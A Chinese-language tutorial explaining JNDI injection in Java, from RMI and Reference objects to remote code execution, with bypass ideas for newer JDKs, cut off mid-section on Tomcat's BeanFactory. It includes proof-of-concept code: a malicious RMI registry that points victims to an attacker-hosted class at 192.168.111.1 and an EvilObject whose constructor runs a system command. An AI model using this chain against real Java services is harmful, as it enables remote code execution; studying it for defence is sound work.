




JNDI注入原理浅析
目录
JNDI注入依赖RMI，所以在学习JNDI注入前务必了解一下RMI
JNDI 简介
JNDI (Java Naming and Directory Interface) 是一个java中的技术，用于提供一个访问各种资源的接口。比如通过JNDI可以在局域网上定位一台打印机，或者定位数据库服务，远程JAVA对象等。
JNDI底层支持RMI远程对象，RMI注册的服务可以直接被JNDI接口访问调用。
JNDI注入
RMI工作原理
首先我们先思考一下RMI的工作原理是什么。
1.服务器创建好继承于Remote接口的类，并把它绑定到RMI服务器上
2.客户端请求RMI服务器上的类
3.服务端返回客户端所请求类的存根stub，客户端将这个stub看作实例化对象使用
4.客户端调用stub的某个方法，并传入参数。该参数会发送到RMI服务器上，由RMI服务器按照客户端传来的参数来执行指定的方法
5.服务器执行完后将结果返回给客户端
所以从RMI这一端来看，客户端获取了远程对象后所执行的此对象的方法，都是由RMI服务器来执行的。
Reference类
首先来看一下如何创建一个对象Reference并将其绑定到RMI服务器上
......定义好了registry，它是一个Registry对象（RMI中用于将类注册到服务器上的对象）
Reference refObj = new Reference("refClassName", "insClassName", "http://a.com:12345");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
前面说到RMI服务器会向客户端返回stub或者说一个对象，如果RMI服务器传回客户端一个Reference对象呢？那就要说道说道了。
对于RMI服务器而言，向客户端传回一个Reference对象和传回其他对象一样，并没有多大区别。
但是客户端由于获取到了一个Reference实例，比如说就是上面代码中的Reference实例，接下来客户端就会先在CLASSPATH里寻找被标识为refClassName的类。如果没找到，它就会去请求http\://a.com:12345/refClassName.class 对里面的类进行动态加载，并调用insClassName类的构造方法。注意，调用insClassName类的构造方法这个行为是由客户端完成的。
上面的一系列行为可以概括为xiatu

JNDI 协议转换
我们在通过JNDI调用远程对象时，需要设置环境，就像这样
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY,
"com.sun.jndi.rmi.registry.RegistryContextFactory"); //设置了rmi请求方式
env.put(Context.PROVIDER_URL,
"rmi://localhost:1099");
Context ctx = new InitialContext(env);
比如以上代码，就设置了JNDI会通过rmi的方式去请求远程对象。
但是当调用lookup()或者search()时，可以直接无视环境是如何设置请求方式的，因为JNDI有协议动态转换机制。什么意思呢？看看代码就晓得了
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY,
"com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
"rmi://localhost:1099");
Context ctx = new InitialContext(env);
ctx.lookup("ldap://a.com/ou=foo,dc=foobar,dc=com")
以上代码执行后，会调用ldap协议去请求，而不是rmi。
这是因为lookup或者search函数在参数为绝对路径URI的情况下动态转换协议为参数中指定的协议。
JNDI注入
如果我们满足以下条件，JNDI注入就会成功
JNDI调用的lookup参数可控
URI可进行动态协议转换
Reference对象指定类会被加载并实例化
其实最重要的就是第一条。
下面用一张图概括从JNDI注入到RCE的流程

1.攻击者控制了lookup参数
2.攻击者将lookup参数替换为去请求恶意服务器A上的Reference对象
3.恶意服务器A返回Reference对象
4.受害机器获得Reference对象后先在CLASSPATH中查找Reference对象中的指定类是否存在，若不存在则请求Reference对象中指定的恶意服务器B去获得指定类
5.恶意服务器B返回指定类
6.受害机器得到指定类后，执行指定类的构造函数，从而达到RCE
下面是代码实现
受害机器
import java.rmi.Remote;
import java.rmi.RemoteException;
import javax.naming.Context;
import javax.naming.InitialContext;
interface IHello extends Remote {
abstract String sayHello(String name) throws RemoteException;
}
public class CallService {
public static void main(String args[]) throws Exception{
if(args.length<1){
System.out.println("Plz input url");
System.exit(-1);
}
else {
// JNDI 获取 RMI 上的方法对象并进行调用
Context ctx = new InitialContext();
IHello rHello = (IHello) ctx.lookup((String)args[0]);
System.out.println(rHello.sayHello("tom"));
}
}
}
RMI
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.*;
import java.rmi.server.UnicastRemoteObject;
public class evilrmi {
public static void main(String[] args) throws Exception{
Registry registry = LocateRegistry.createRegistry(1010);
Reference refObj = new Reference("EvilObject","EvilObject","http://192.168.111.1:80/");
ReferenceWrapper refObjWra = new ReferenceWrapper(refObj);
registry.bind("refObj",refObjWra);
System.out.println("gogo");
}
}
EvilObject
import java.lang.Runtime;
import java.lang.Process;
public class EvilObject {
public EvilObject() throws Exception {
Runtime rt = Runtime.getRuntime();
String[] commands = {"calc"};
Process pc = rt.exec(commands);
pc.waitFor();
}
}
我们先运行RMI服务器，然后把EvilObject.class放置于http\://192.168.111.1:80/下，然后指定lookup参数为我们的恶意RMI服务器去运行受害机器。
JNDI注入分析
调用栈如下

跟进lookup方法，我们可以看到此处

再次跟进lookup方法

再次跟进lookup方法

跟进decodeObject

跟进，来到此处。此处getObjectFactoryFromReference 是去获取Reference对象。
ref和f此时分别对应的值为Reference类名和Reference指向的类的类名


再度跟进

1处是尝试本地加载（从CLASSPATH中）Reference指定的类，2处是如果本地无法加载且ref中classFactoryLocation属性值不为空，就从此属性指定的值远程获取加载类。最后在3处对加载到类执行实例化，从而触发构造函数。
JNDI注入：高版本如何利用？
TrustURLCodeBase
JDK 6u141, JDK 7u131, JDK 8u121 以及更高版本中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性，所以会执行以上流程会有如下报错
The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。
概览
以上是JNDI Reference+RMI的利用方式，除此之外还有一个JNDI Reference+ldap 的利用方式，操作与JNDI Reference+RMI大同小异，也就是通过ldap协议lookup一个恶意服务器并获得恶意Reference对象，并且LDAP服务的Reference远程加载Factory类不受 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以利用面更广
但是在Oracle JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为false，还对应的分配了一个漏洞编号CVE-2018-3149。
借用一下三只师傅的图

绕过的两种思路:
- 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
- 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。
看上去似乎很好理解，深入的来看看吧。
利用本地类
上面我们讲到了jndi注入的流程，提到了**如果本地无法加载且ref中classFactoryLocation属性值不为空，就从此属性指定的值远程获取加载类 **，如果本地可以加载呢？是不是也能造成攻击？
看1处，会先调用loadClass进行本地加载ref的指定类
跟进后会来到VersionHelper12#loadClass，然后会返回ref指定的类

返回指定类后后再往上走，来到getObjectInstance，会发现调用了指定类的getObjectInstance方法——我们要需要的恶意代码触发点

所以我们只需要找到一个本地类，其必须实现javax.naming.spi.ObjectFactory接口,因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对Factory类的实例对象进行了类型转换
并且该工厂类至少存在一个getObjectInstance()方法 （可以用于执行恶意代码的）

TOMCAT8
tomcat8有一个类org.apache.naming.factory.BeanFactory，其实现了ObjectFactory接口且有getObjectInstance方法，更重要的是其getObjectInstance可以执行恶意代码。
它会先获取ref对象中的resourceclass
